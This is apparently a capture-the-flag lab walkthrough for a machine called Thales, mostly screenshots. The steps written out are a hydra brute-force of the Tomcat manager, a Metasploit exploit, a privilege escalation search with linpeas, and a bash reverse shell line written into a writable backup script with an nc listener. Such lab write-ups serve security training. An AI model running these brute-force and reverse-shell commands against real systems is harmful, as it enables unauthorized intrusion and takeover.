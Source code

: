 # Exercise 1: Thales

Nmap scans:

![](media/a0c54fb63f29c94c5e486fc72d268901.png)

![](media/2c82f48f4febbcf48e61dd28b15c82e9.png)

![Text Description automatically generated](media/f58a38ebc865fa4611bcb1ec13752d9e.png)

Webpage at port 8080:  
![](media/821e0634392c12abffd837649c1d8a27.png)

(clicked on Manager App)

Default credentials upon google search is admin:admin which did not work

Run dirb:  
![Text Description automatically generated](media/b9d48b92a7ce21001ac2d0053d552d03.png)

/shell/ shows an empty webpage

![Graphical user interface, text, application Description automatically generated](media/764ec86a076c928c398ec39c4a7140bd.png)

When in doubt, brute force!

hydra -L tempusers.txt -P /home/kali/rockyou.txt -f <http://192.168.50.21> http-get /manager/html

Where tempusers.txt contains only two entries: tomcat and admin

![](media/945a48a33bd314e30de2f0b7a430d53f.png)

Search Metasploit for any tomcat exploits that require credentials (use 5th one)

![](media/3b8f37efbc2861c7adac8345bc214988.png)

![Text Description automatically generated](media/567fa52b00074f9fbcd1b243441e5914.png)

Set these options

and run!  
![](media/d94b87382e4b9cbffaf12ec9f99dfa62.png)

Type ‘shell’ in meterpreter shell to go to command shell

Then get an interactive shell using python3 -c ‘import pty; pty.spawn(“/bin/bash”)’

Look for writable directories: find / -type d -writable 2\> /dev/null

Download linpeas from kali to target using the classic python SimpleHTTPServer method

![Text Description automatically generated](media/69032351b93fdf768a617e348e7bb09e.png)

Result:

![](media/cb11169d5a824e50b34c3df26e60e884.png)

![A screenshot of a computer Description automatically generated with medium confidence](media/ac4e26622eee077620524294350a2466.png)

The sudo 1.8.21p2 and the CVE-2021-4034 exploit did not work due to the errors below which occurs in some machines  
![Text Description automatically generated](media/9bccd0fe99fc179d56dfacc6c29e8476.png)

another possible point of entry is the writable backup script.

![Text Description automatically generated](media/c314fd871ac9bc2ff6685a81315f8d35.png)

Write to backup.sh:

sh -i \>& /dev/tcp/192.168.50.5/4443 0\>&1

Which will create a reverse shell onto our machine on port 4443 (since 4444 is used by Metasploit)

![](media/e014c07c410df5d705c1dbe8158d32b9.png)Run nc -nlvp 4443 on kali to listen and wait until the script triggers automatically
